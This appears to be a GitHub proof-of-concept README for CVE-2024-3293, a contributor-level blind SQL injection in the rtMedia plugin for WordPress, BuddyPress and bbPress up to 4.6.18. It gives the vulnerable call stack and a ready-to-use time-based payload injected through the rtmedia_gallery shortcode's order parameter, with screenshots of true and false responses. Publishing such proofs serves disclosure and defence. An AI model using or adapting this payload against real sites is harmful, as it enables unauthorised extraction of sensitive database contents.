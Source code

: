 # CVE-2024-3293-Poc

rtMedia for WordPress, BuddyPress and bbPress <= 4.6.18 - Authenticated (Contributor+) SQL Injection via rtmedia_gallery Shortcode

File: https://github.com/truonghuuphuc/CVE-2024-3293-Poc/blob/main/buddypress-media.4.6.18.zip

Description

The rtMedia for WordPress, BuddyPress and bbPress plugin for WordPress is vulnerable to blind SQL Injection via the rtmedia_gallery shortcode in all versions up to, and including, 4.6.18 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for authenticated attackers, with contributor-level access and above, to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/buddypress-media/rtmedia-for-wordpress-buddypress-and-bbpress-4618-authenticated-contributor-sql-injection-via-rtmedia-gallery-shortcode

CALL STACK
```
RTMediaModel->get (\buddypress-media\app\helper\RTMediaModel.php:61)
RTMediaModel->get_media (\buddypress-media\app\helper\RTMediaModel.php:227)
RTMediaQuery->populate_media (\buddypress-media\app\main\routers\query\RTMediaQuery.php:869)
RTMediaQuery->populate_data (\buddypress-media\app\main\routers\query\RTMediaQuery.php:993)
RTMediaQuery->get_data (\buddypress-media\app\main\routers\query\RTMediaQuery.php:1214)
RTMediaQuery->query (\buddypress-media\app\main\routers\query\RTMediaQuery.php:684)
RTMediaQuery->__construct (\buddypress-media\app\main\routers\query\RTMediaQuery.php:184)
RTMediaGalleryShortcode::render (\buddypress-media\app\main\controllers\shortcodes\RTMediaGalleryShortcode.php:271)
```

Payload: 
```
[rtmedia_gallery global="true" album_id="57" order_by="ratings" order=",media_id,(select 1 from (select sleep(IF(1=1,5,0)))x)"]
```

![image](https://github.com/truonghuuphuc/CVE-2024-3293-Poc/assets/20487674/349f1bfa-eef6-4757-a3c8-c976866927af)

![image](https://github.com/truonghuuphuc/CVE-2024-3293-Poc/assets/20487674/3be5f3bf-2338-4888-b7cf-1fb60443b2a1)

Payload true:

![image](https://github.com/truonghuuphuc/CVE-2024-3293-Poc/assets/20487674/cb9d5c18-94cc-4082-8ed8-9ad46f11a622)

Payload false:

![image](https://github.com/truonghuuphuc/CVE-2024-3293-Poc/assets/20487674/31a2d8e4-9383-4df5-8dd3-9e5748c3e24c)
